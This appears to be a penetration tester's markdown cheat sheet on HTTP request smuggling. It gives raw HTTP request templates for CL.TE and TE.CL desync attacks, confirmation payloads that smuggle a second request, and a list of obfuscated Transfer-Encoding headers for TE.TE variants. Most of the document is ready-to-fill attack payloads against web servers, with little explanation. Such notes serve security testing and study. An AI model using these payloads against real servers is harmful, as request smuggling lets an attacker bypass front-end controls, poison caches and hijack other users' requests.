 # HTTP Smuggling
**Content-Length (body) is DECIMAL Bytes**
**Chunk size is HEX Bytes**

**Note: Always append two lines (`\r\n\r\n`) after Null chunk**
**Note: Each line (`\r\n`) is 2 bytes long**
## Headers
```
Transfer-Encoding: chunked
Connection: Keep-Alive
```
## CL.TE
**Client sends Incomplete chunks**
**Nicer to test this first**
```
POST / HTTP/1.1  
Host: vulnerable-website.com  
Transfer-Encoding: chunked  
Content-Length: 4  
  
1
A
[<SMUGGLE>]
```
- Incomplete chunk is sent - Server hangs expecting Zero Chunk

### Confirmation
```
POST /search HTTP/1.1  
Host: <HOST>
Content-Length: 49  
Transfer-Encoding: chunked  
  
<HEX LEN BODY>
<BODY>
0
  
GET /404 HTTP/1.1  
Foo: x
```

## TE.CL
**Client sends larger Content-Length than chunk**
```
POST / HTTP/1.1  
Host: <HOST>
Transfer-Encoding: chunked  
Content-Length: 6
  
0

[<SMUGGLE>]
```
-Zero chunk (3 bytes) is sent - Server hangs expecting 3 more bytes

### Confirmation
```POST /search HTTP/1.1  
Host: <HOST>
Content-Type: application/x-www-form-urlencoded
Content-Length: <2 + LENGTH HEX>
Transfer-Encoding: chunked

<HEX LENGTH OF BODY>
GET /404 HTTP/1.1
Host: <HOST>
Content-Type: application/x-www-form-urlencoded
Content-Length: <11 + LEN ENTIRE NEXT REQUEST>

x=
0


```

## TE.TE
**Obfuscating T.E Header hangs Client / Server**
**Try with above payloads to determine CL.TE or TE.CL**
### Obfuscating Payloads
- `Transfer-Encoding: xchunked`
- `Transfer-Encoding : chunked`
- `Transfer-Encoding: chunked`
- `Transfer-Encoding: x`
- `Transfer-Encoding:[tab]chunked`
- `[space]Transfer-Encoding: chunked`
- `X: X[\n]Transfer-Encoding: chunked`
- `Transfer-Encoding
	: chunked`


